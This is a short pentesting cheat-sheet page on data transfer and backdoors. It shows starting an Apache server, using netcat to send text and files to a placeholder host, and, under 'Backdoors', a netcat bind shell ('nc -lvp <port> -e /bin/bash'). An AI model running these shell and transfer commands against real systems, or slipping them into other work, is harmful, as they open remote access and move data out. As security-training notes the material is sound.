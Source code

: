 ```yaml
---
title: Data transfer and backdoors
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, webpentesting, server, backdoors
---
```


# Data transfer and backdoors

## Data transfer

### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
service apache2 start
```


### Netcat

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```


**Netcat: Transfer data and save it in a file**

On the server side:

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```

**Netcat Transfer file and save it**

On the server side:

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```



## Backdoors

### Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```


